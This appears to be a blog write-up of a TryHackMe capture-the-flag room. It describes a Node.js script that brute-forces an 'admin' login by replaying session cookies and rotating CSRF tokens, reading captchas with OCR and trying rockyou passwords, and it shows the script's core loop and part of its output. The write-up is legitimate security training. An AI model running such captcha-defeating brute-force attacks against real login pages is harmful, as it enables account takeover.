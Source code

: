 ```yaml
---
layout: post
title: TryHackMe - "CAPTCHApocalypse"
categories: Challenges
tags: red-team pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/captchapocalypse)

## Intro

We are targeting a website displaying a login form. We know username is "admin", but the password isn't easily guessable, so we need to perform a bruteforce attack using a dictionary (we're told the dictionary to use is "rockyou.txt," specifically the first 100 lines). However, the login form isn't easily crackable with common "pre-packaged" attacks because we have three elements protecting it:

- Upon the client's first request to the main page, the server sends the <u>session</u> number to the client via a cookie (see response header). The client must therefore send this cookie in each request. It remains fixed, so it's not a major problem.

- There's also a <u>CSRF token</u>, contained in the login html page (useful for preventing CSRF attacks). This changes with each failed login attempt, so for each failed login attempt, we need to keep track of this string and send it back to the server, sending the login POST.

- The login page also requires the famous <u>captcha</u>: an image displaying a number, which must be sent back to the server in the login POST: for each login attempt, we must recognize the alphanumerical text shown in the image using an OCR function (we can use the "tesseract" library) and send it to the server along with the other parameters (username, password, csrf-token).

Because of these three protective elements, we can't simply make multiple POST requests containing the various words from the dictionary to be used as passwords for "admin" user, perhaps using Hydra or other automated brute-forcing methods. Instead, we need to program our custom script, which for each login attempt will send to the server the session ID, the anti-CSRF token (which changes with each attempt, so it must be extracted from a new login page, for each cycle), and the corresponding captcha.

## Encryption and Javascript

In addition to what we said earlier, there is one more thing to note: the target web application is programmed to send the query containing the four parameters (username, password, csrf-token, captcha_input) in encrypted form using "forge" JavaScript library (forge.min.js), called by login script (script.js), so this adds complexity to our brute-force attack.

The encryption is asymmetric, but this isn't a problem because the client-side JavaScript login script (viewable in our browser) shows us the two keys (private key for decryption, and public key for encryption). By looking at source code, we can see how login process works, which retrieves the strings contained in the form fields (username, password, csrf-token, captcha_input), packages them into a query string, which is transformed into a base64 string, and then it's encrypted, and sent to the server with a POST.
The response that comes from the server will have to be treated inversely: there will be decryption, base64 decoding, and then treatment of the different result cases (successful login, failed login, invalid captcha). Note: login request/response content type is JSON. 

Since the client-side login logic is contained almost exclusively in the JavaScript script, which extracts all fields from login form and sends them in encrypted form to the server, it will be more convenient to program our custom brute-forcing script in JavaScript itself, using Node.js technology, which allows the execution of JavaScript as a command-line script from terminal, just as we would if we were calling a Python script.

## Brute-force script

We do not present the complete script of all the subfunctions to avoid giving away any easy spoilers, but only the fundamental part that manages the logic of our bruteforcing attack.

    console.log("Loading dictionary...");
    var words = await readDictionaryFile();
    console.log("Done.");	   
    console.log("Requesting web index...");
    var index_page_text = await requestIndexPage();
    console.log("Session ID:", session_id); // session_id is extracted from response header

    var csrf_match = index_page_text.match(csrf_regexp);
    var csrf_str = csrf_match[1];
    var captcha_str = await requestCaptcha();
    captcha_str = captcha_str.trim();
    var result;
    var i = 0;
    for (let word of words) {
        result = 2;
        while (result == 2) { // while captcha is not recognized we continue with the same password attempt
            console.log(i + ";admin:" + word + ";csrf:" + csrf_str + ";captcha:" + captcha_str);
            result = await custom_login(login_url, session_id, username, word, csrf_str, captcha_str);
            if (result == 0) { // login successful 
                break;
            }
            else if (result == 1) { // login failed
                let login_page_text = await requestLoginPage();
                csrf_match = login_page_text.match(csrf_regexp);
                csrf_str = csrf_match[1];
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result == 2) { // captcha invalid (not recognized), we only request another captcha
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result > 2){ // connection error
                break;
            }
        }
        if ((result == 0) || (result > 2) || (i > 100)) {
            break
        }
        i++;
    }

In summary, the first request to the index server page is mainly to capture the session number which will remain fixed throughout the attack, and also capture the first csrf token, which we use on the first login attempt.

After that, the cycle begins: for each word in the dictionary (rockyou.txt), we do POST login request sending username, password, csrf_token, captcha string (and cookie header with session_id) to our "custom_login" function, which is very similar to the original login() function defined in "script.js" file.

- If result of our "custom_login" is 0 (successful login) we break the loop 
- If result is 1 (failed login) we move on, requesting a new login page in order to extract a new csrf token, and requesting a new captcha from the server, and then making a new POST login attempt, etc. etc..
- If result is 2 (invalid captcha), we request to the server a new captcha, without requesting a new login page, we recognize it using OCR technique, and we retry login with the same password until captcha will be recognized correctly. This is the meaning of "while (result == 2)" statement.

In other words, the "for" loop, which attempts a login for each word in the dictionary, continues to run within "while" sub-loop if captcha is not recognized correctly; otherwise, it proceed normally with the next password from dictionary, continuing with the "for" loop.

By implementing the script (completely, with sub-functions, etc.) and running our script, the password will be found within a fairly reasonable amount of time. Then, with that correct password, you'll need to log in with your browser to access to admin account (basically, a simple page will appear that will display the flag).

We show only the first lines of the script's output without going any further to avoid spoilers.

    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:BHDG3
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:IB259
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:4UBKZ
    Login failed
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:LAGNX
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:T8SUM
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:KsXaY
    Login failed
    2;admin:123456789;csrf:09df82f29e3fc313bc586e62de97b2270fe50813f75065d02a293fdb19eef9ba;captcha:H94UV
    Login failed
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:QEVSM
    CAPTCHA incorrect.
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:Y8PJ4
    Login failed
    4;admin:iloveyou;csrf:9479c2ef0ace5ede25c7121d036a35f2767c73606ffb61d1890b7f50f46cbd08;captcha:2DE7S
    Login failed
    5;admin:princess;csrf:58ce68c397d00eba5ecab28e6789af05e1c6743116a29413f3b0ef79f2e64616;captcha:8X9CG
    Login failed
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:KNZOT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:voseT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:SBXLY
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:T2BMP
    Login failed
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:2NSPG
    CAPTCHA incorrect.
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:NSLPX
    Login failed
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:75VUT
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:YSIRK
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:E6Jav
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:TFDES
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:B53GA
    Login failed
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:MKC3
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:DIKBN
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:2THaD
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:NZAFS
    Login failed
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:HEK32
    CAPTCHA incorrect.
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:GFUK2
    Login failed
    11;admin:daniel;csrf:5c4d65f2f195884d76c59bbad2beb6b8512e243d0013d3929341fe2c7291ff2b;captcha:HoaMA
    CAPTCHA incorrect.